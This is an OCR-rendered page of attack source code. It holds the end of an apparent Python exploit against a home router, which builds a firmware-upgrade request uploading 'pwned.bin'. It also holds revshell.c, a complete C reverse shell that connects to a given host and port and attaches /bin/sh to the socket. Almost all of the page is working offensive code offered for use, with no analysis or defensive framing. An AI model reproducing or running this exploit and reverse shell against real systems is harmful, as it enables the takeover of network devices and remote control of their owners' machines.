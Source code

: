 ```
        "wan_dns1_2": "0",
        "wan_dns1_3": "0",
        "wan_dns2_0": "0",
        "wan_dns2_1": "0",
        "wan_dns2_2": "0",
        "wan_dns2_3": "0",
        "wan_wins": "4",
        "wan_wins_0": "0",
        "wan_wins_1": "0",
        "wan_wins_2": "0",
        "wan_wins_3": "0",
        "time_zone": "-08+1+1",
        "_daylight_time": "1",
    }


def get_upgrade_query():
    return {
        "file": '; filename="pwned.bin"',
        "submit_button": "Upgrade",
        "change_action": "",
        "action": "",
        "process": ""
    }
```



**revshell.c**

```
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <arpa/inet.h>

int main(int argc, char *argv[])
{
    int port, sockt;
    struct sockaddr_in revsockaddr;

    if (argc != 3)
    {
        fprintf(stderr, "usage: %s HOST PORT\n", argv[0]);
        exit(EXIT_FAILURE);
    }

    port = atoi(argv[2]);

    sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr(argv[1]);

    connect(sockt, (struct sockaddr *)&revsockaddr, sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char *const sh_argv[] = {"sh", NULL};
    execve("/bin/sh", sh_argv, NULL);

    return 0;
}
```
